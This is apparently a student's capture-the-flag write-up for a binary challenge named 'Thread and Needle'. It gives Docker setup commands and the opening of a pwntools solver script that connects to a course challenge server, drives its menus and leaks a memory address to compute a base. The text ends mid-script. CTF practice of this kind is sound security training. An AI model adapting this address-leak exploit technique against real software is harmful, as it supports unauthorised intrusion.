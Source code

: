 ```yaml
---
tags:
  - offsec
---
```

_by Vaughn Valle_
### Thread and Needle
#### Setup Docker container
Setup directory to port over to interactive later
![[Pasted image 20241119172312.png]]
Once the files are in our directory, we can build the container from `Dockerfile`
```bash
docker build -t ubuntu2004 .  
```
And then launch an interactive terminal session within the container we just built
```bash
docker run --rm -it -v `pwd`:/chal ubuntu2004
```
#### Static Analysis in IDA
![[Pasted image 20241119175115.png]]
#### Solver Script
```python
from pwn import *

local = False
binary = './thread_and_needle'

if not local:
    conn = remote('offsec-chalbroker.osiris.cyber.nyu.edu', 1211)
    conn.recvuntil(b':')
    conn.sendline('vqv9731')
else:
    conn = process(binary)

def setup(item_type, stitch_length, stitch_type):
  conn.recvuntil(b'>')
  conn.sendline(b'1')

  conn.recvuntil(b'>')
  conn.sendline(item_type.encode())

  conn.recvuntil(b'>')
  conn.sendline(stitch_length.encode())

  conn.recvuntil(b'>')
  conn.sendline(stitch_type.encode())

def edit():
  conn.recvuntil(b'>')
  conn.sendline(b'2')

  conn.recvuntil(b'>')
  conn.sendline(b'2')
  conn.recvuntil(b':')
  leak = (conn.recvline().strip())
  number = int(leak, 16)
  number_zeroed = number & ~0xfff
  leak = number_zeroed

  conn.recvuntil(b'>')
```